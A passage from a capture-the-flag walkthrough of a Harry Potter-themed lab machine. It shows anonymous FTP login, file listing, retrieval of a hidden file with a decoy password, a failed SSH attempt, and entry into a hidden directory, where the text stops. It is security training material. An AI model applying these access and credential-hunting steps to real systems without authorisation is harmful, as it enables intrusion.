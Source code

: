 The target machine has two open ports, 22 and 21. Port 21 is running an FTP server. Let's connect to the FTP server.

We dont have any credentials to connect to the FTP server. We can try to connect as anonymous.

```bash
ftp $IP
```

We are connected to the FTP server.
```
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
We do a `ls -la` to see the files in the FTP server.

```bash
ls -al

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Jan 24  2022 .
drwxr-xr-x    3 0        113          4096 Jan 24  2022 ..
drwxr-xr-x    2 0        0            4096 Jan 24  2022 ...
-rw-r--r--    1 0        0              81 Jan 24  2022 .hidden
226 Directory send OK.
```

We found a file named `.hidden`. We can download this file to our local machine.

```bash
get .hidden
```

We do a `cat` on the file.

```bash
cat .hidden

I swear that my password is Il0veTheMalefoys, trust me, I'm Hagrid, I never lie!
```
We know the user password. We can try to connect to the SSH server using the credentials we found.

```bash
ssh hagrid@$IP
```

We cant connect beacuse the password is false. Beacause is the Harry Potter series Hagrid dont like the Malefoys.

We see a folder named `...`. It is a hidden folder. We can try to access this folder.

```bash
cd ...
```

We do a `ls -la` to see the files in the folder.

```bash
ls -al

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 24  2022 .
drwxr-xr-x    3 0        113          4096 Jan 24  2022 ..
-rw-r--r--    1 0        0              42 Jan 24  2022 .reallyHidden
226 Directory send OK.
```
